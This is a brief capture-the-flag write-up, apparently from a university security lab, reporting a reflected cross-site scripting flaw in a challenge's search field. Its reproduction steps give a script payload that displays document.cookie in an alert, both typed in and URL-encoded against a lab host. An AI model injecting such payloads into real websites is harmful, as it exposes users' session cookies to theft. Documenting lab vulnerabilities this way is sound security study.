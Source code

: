 # Challenge `Just my boring cookies` writeup

- Vulnerability: Cross-Site Scripting Lab (XSS) - Reflected XSS

- Where: search input

- Impact: attacker is able to inject malicious code in the webpage

---

## Steps to reproduce

1. Add a script to alert your cookie <script>alert(document.cookie)</script> on the search field or simply go to url:
 - http://mustard.stt.rnl.tecnico.ulisboa.pt:23251/?search=%3Cscript%3Ealert(document.cookie)%3C/script%3E

[(POC)](Just_my_boring_cookies.txt)

